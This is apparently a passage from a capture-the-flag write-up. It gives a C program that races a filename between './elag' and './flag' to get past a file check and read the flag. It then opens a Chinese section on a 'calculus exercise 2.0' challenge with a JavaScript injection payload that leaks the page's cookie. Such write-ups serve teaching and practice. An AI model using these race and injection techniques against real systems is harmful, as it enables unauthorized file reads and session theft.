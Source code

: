 ```c
#include <unistd.h>
#include <fcntl.h>
#include <stdio.h>
#include <stdlib.h>
#include <stdatomic.h>
#define _SCHED_H 1
#define __USE_GNU 1
#include <bits/sched.h>
#include <linux/sched.h>

char filename[7]="./elag";

int blinker(void*ptr){
	while(1){
		filename[2]='f';
		atomic_thread_fence(memory_order_seq_cst);
		filename[2]='e';
		atomic_thread_fence(memory_order_seq_cst);
	}
}

int main(){
    void *child_stack = malloc(4096);
	clone(&blinker,child_stack+4096,CLONE_VM | CLONE_FS | CLONE_FILES | CLONE_SYSVSEM
			   | CLONE_SIGHAND | CLONE_THREAD
			   | CLONE_SETTLS | CLONE_PARENT_SETTID
			   | CLONE_CHILD_CLEARTID
			   | 0,NULL);
	int i=0;
	while(i<100){
		int fd=open(filename,O_RDONLY);
		atomic_thread_fence(memory_order_seq_cst);
		while(1){
			char buffer[64]={};
			int size=read(fd,buffer,64);
			write(1,buffer,size);
			if(size<64){
				break;
			}
		}
		i++;
	}
	return 0;
}
```

## 微积分计算小练习 2.0

首先，我们发现后端生成评论的时候是字符串拼接 JavaScript 实现的，于是如果我们评论 `"+document["cookie"]+"` 的话便可以在页面内显示我们的 cookie。但是这不够劲爆，能做的事情太有限了。
